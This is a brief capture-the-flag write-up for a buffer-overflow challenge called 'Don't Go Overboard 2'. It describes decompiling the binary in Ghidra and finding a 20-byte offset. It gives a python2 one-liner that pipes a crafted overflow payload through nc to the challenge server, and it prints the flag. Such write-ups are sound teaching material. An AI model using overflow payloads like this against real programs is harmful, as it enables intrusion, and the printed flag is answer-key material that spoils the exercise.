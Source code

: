 # Don't Go Overboard 2

***

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

Basically this challenge is similar to Don’t Go Overboard. But this time, it checks the argument of address instead of decimal number.

So, I decompile the program using Ghidra.

Look at the main function. At line 16, it checks for address `0xf` and `0x405`.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The technique is still the same, find the offset which i found is 20 bytes.

So, put the address together with the payload and send it to the program like this.

`python2 -c 'print "AAAAAAAAAAAAAAAAAAAAB\x00\x00\x00\x05\x04\x00\x00\x0f"' | nc 3.26.44.175 3335`

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### Flag

CURTIN\_CTF{P4YL04D\_0V3RF10W}
